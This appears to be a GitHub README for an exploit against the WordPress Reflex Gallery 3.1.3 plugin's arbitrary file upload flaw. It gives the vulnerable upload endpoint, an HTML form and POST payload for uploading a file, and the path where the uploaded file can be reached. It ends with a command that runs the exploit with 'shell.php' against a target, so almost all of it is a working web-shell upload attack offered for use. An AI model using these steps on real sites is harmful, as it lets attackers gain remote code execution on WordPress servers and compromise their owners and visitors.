 - Wordpress Plugin Reflex Gallery Arbitrary File Upload / INURL - BRASIL

```
  # AUTOR:        Cleiton Pinheiro / Nick: googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```

-   Vulnerability Description
------
WordPress Reflex Gallery plugin version 3.1.3 suffers from a remote shell upload vulnerability.

-   Tool Description
------
The script makes file upload without permission

-   FORM HTML
------
```
<form method = "POST" action = "" enctype = "multipart/form-data" >
<input type = "file" name = "qqfile"><br>
<input type = "submit" name = "Submit" value = "inurl">
</form >
```

-   REQUEST POST SEND
------
```
array('qqfile' => "@_YOU_FILE")
```

-   URL REQUEST SEND
------
```
http://{target}/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2015&Month=03
```

-   URL FILE ACCESS
------
```
http://{target}/wp-content/uploads/2015/03/_YOU_FILE
```

-   EXECUTE EXPLOIT
------
```
Demo: php xpl.php {target} {file}
Ex:   php xpl.php http://target.com shell.php
```

-   OUTPUT VULN
------
filename: Exploit_AFU.txt

- REFERENCE
------
http://packetstormsecurity.com/files/130845/WordPress-Reflex-Gallery-3.1.3-Shell-Upload.html
